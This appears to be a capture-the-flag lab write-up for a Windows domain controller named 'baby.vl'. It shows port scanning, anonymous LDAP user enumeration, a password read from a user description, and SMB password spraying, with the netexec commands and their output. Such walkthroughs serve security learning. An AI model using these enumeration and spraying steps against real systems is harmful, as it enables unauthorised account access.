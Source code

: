 The domain is `baby.vl` → Add the following line to `/etc/hosts/`, so we can target the domain directly.
```bash
echo '10.10.64.114    baby.vl' | sudo tee -a /etc/hosts
```

The following scan reveals all relevant ports and finishes in 3 Minutes on my machine.
```
sudo nmap -p- -iL ips.txt -v -oA full
```

## 389 LDAP - Get username and password
### Misconfiguration: LDAP allows anonymous access → User enumeration
```bash
nxc ldap baby.vl -u '' -p '' --users | tee users.txt
SMB         10.10.64.114    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
LDAP        10.10.64.114    389    BABYDC           [+] baby.vl\: 
LDAP        10.10.64.114    389    BABYDC           [*] Total records returned: 39
LDAP        10.10.64.114    389    BABYDC           DC=baby,DC=vl
[...]
LDAP        10.10.64.114    389    BABYDC           CN=Joseph Hughes,OU=it,DC=baby,DC=vl
LDAP        10.10.64.114    389    BABYDC           CN=Kerry Wilson,OU=it,DC=baby,DC=vl
LDAP        10.10.64.114    389    BABYDC           CN=Teresa Bell,OU=it,DC=baby,DC=vl
LDAP        10.10.64.114    389    BABYDC           CN=******** ********,OU=it,DC=baby,DC=vl
```

We can generate a List of usernames by taking the names and replacing space with periods.
```bash
(cat users.txt | grep CN | cut -d= -f2 | cut -d, -f1 | tr ' ' '.' ) > tmp ; mv tmp users.txt
```

### CRITICAL Misconfiguration: Password stored in User Description

```bash {hl_lines=[5]}
nxc ldap baby.vl -u '' -p '' -M user-desc
SMB         10.10.64.114    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
LDAP        10.10.64.114    389    BABYDC           [+] baby.vl\: 
USER-DESC   10.10.64.114    389    BABYDC           
    User: Teresa.Bell - Description: Set initial password to **********
USER-DESC   10.10.64.114    389    BABYDC           Saved 2 user descriptions to /home/debian/.nxc/logs/UserDesc-10.10.64.114-20240928_141347.log
```
We now have the password `***********`.

## 445 SMB - Password spraying and Password reset
Password spraying time with `netexec`:
```bash
nxc smb baby.vl -u users.txt -p pass
[...]
SMB         10.10.64.114    445    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.64.114    445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.10.64.114    445    BABYDC           [-] baby.vl\********.********:BabyStart123! STATUS_PASSWORD_MUST_CHANGE 
```
